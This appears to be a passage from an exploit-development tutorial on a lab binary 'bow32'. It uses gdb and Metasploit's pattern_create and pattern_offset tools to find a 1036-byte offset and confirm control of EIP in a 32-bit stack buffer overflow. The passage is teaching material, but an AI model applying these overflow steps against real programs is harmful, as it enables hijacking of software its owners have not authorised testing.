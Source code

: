 ```
fs             0x0	0
gs             0x63	99
```

### Determine The Offset 

The offset is used to determine how many bytes are needed to overwrite the buffer and how much space we have around our shellcode. Shellcode is a program code that contains instructions for an operation that we want the CPU to perform.

Let's use the script **pattern_create** to determinate the exact number of bytes to reach the EIP:
```console
zero@pio$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
zero@pio$ cat pattern.txt

Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9
```

Now replace the 1200 "U"s with the pattern:
```
gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()
```

We see that the EIP displays a different memory address:
```
(gdb) info registers eip

eip            0x69423569	0x69423569
```

We can use another MSF tool called "**pattern_offset**" to calculate the exact number of characters (offset) needed to advance to the **EIP**:
```
zero@pio$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569

[*] Exact match at offset 1036
```

If we now use precisely this number of bytes for our "U"s, we should land exactly on the **EIP**. To overwrite it and check if we have reached it as planned, we can add 4 more bytes with "\x66" and execute it to ensure we control the **EIP**.
```
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```
